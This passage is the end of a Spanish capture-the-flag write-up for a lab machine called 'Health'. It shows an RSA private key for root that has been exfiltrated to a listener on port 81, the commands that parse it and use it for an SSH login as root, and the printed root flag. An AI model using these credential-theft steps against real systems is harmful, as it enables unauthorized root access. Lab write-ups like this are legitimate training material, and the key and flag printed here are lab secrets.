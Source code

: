 Resultado:
![imagen 12](Pasted image 20230104121607.png)


4 - Al cabo de un rato, recibiremos por el puerto 81 la clave privada de *root*:

```bash
cat body.txt | jq .body  | sed 's/\\n/\n/g' | tr -d "\""
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAwddD+eMlmkBmuU77LB0LfuVNJMam9/jG5NPqc2TfW4Nlj9gE
KScDJTrF0vXYnIy4yUwM4/2M31zkuVI007ukvWVRFhRYjwoEPJQUjY2s6B0ykCzq
IMFxjreovi1DatoMASTI9Dlm85mdL+rBIjJwfp+Via7ZgoxGaFr0pr8xnNePuHH/
KuigjMqEn0k6C3EoiBGmEerr1BNKDBHNvdL/XP1hN4B7egzjcV8Rphj6XRE3bhgH
7so4Xp3Nbro7H7IwIkTvhgy61bSUIWrTdqKP3KPKxua+TqUqyWGNksmK7bYvzhh8
W6KAhfnHTO+ppIVqzmam4qbsfisDjJgs6ZwHiQIDAQABAoIBAEQ8IOOwQCZikUae
NPC8cLWExnkxrMkRvAIFTzy7v5yZToEqS5yo7QSIAedXP58sMkg6Czeeo55lNua9
t3bpUP6S0c5x7xK7Ne6VOf7yZnF3BbuW8/v/3Jeesznu+RJ+G0ezyUGfi0wpQRoD
C2WcV9lbF+rVsB+yfX5ytjiUiURqR8G8wRYI/GpGyaCnyHmb6gLQg6Kj+xnxw6Dl
hnqFXpOWB771WnW9yH7/IU9Z41t5tMXtYwj0pscZ5+XzzhgXw1y1x/LUyan++D+8
efiWCNS3yeM1ehMgGW9SFE+VMVDPM6CIJXNx1YPoQBRYYT0lwqOD1UkiFwDbOVB2
1bLlZQECgYEA9iT13rdKQ/zMO6wuqWWB2GiQ47EqpvG8Ejm0qhcJivJbZCxV2kAj
nVhtw6NRFZ1Gfu21kPTCUTK34iX/p/doSsAzWRJFqqwrf36LS56OaSoeYgSFhjn3
sqW7LTBXGuy0vvyeiKVJsNVNhNOcTKM5LY5NJ2+mOaryB2Y3aUaSKdECgYEAyZou
fEG0e7rm3z++bZE5YFaaaOdhSNXbwuZkP4DtQzm78Jq5ErBD+a1af2hpuCt7+d1q
0ipOCXDSsEYL9Q2i1KqPxYopmJNvWxeaHPiuPvJA5Ea5wZV8WWhuspH3657nx8ZQ
zkbVWX3JRDh4vdFOBGB/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT
rti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB
N1ZI4E59+O3Z15VgZ/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD
SsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o
++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp
UnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR/xkIP/Mog1a
vmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU
6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC/cQbPm
QeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G
-----END RSA PRIVATE KEY-----
```

Finalmente, para conectarnos, la guardamos en un fichero, le damos permisos 600 y nos conectamos por SSH:

```bash
cat info.txt | jq .body  | sed 's/\\n/\n/g' | tr -d "\"" > id_rsa
chmod 600 id_rsa
ssh root@10.10.11.176 -i id_rsa
```

### root.txt

Encontraremos la segunda *flag* en el *homedir* de *root*:

```bash
root@health:~## cd /root/
root@health:~## cat root.txt
8a2a95667f1d881497732c87c7264bf3
```
















